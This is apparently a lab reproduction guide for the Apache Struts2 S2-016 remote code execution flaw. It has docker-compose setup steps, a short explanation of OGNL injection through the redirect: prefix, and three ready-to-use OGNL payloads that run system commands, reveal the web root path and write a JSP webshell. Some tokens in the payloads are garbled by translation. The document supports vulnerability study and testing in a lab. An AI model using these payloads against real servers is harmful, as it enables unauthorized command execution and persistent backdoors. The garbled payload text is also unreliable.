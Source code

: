 # S2-016 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.3.15

Vulnerability details:

 - http://struts.apache.org/docs/s2-016.html
 - http://www.freebuf.com/articles/web/25337.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Vulnerability recurrence

In struts2, the DefaultActionMapper class supports "action:", "redirect:", "redirectAction:" as navigation or redirect prefixes, but these prefixes can be followed by OGNL expressions. Since struts2 does not filter these prefixes, Causes the use of OGNL expressions to call java static methods to execute arbitrary system commands.

So, access the `http://your-ip:8080/index.action?redirect:OGNL expression` to execute the OGNL expression.

Excuting an order:

```
Redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess ,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java .io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter( ), #genxor.println(#d),#genxor.flush(),#genxor.close()}
```

Get the web directory:

```
Redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),# Resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding(' UTF-8'), #ot=#resp.getWriter (), #ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext ().getRealPath('/')), #ot.flush(), #ot.close()}
```

Write to webshell:

```
Redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess ,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/" )).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),# B.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor .close()}
```

Results of the:

![](01.png)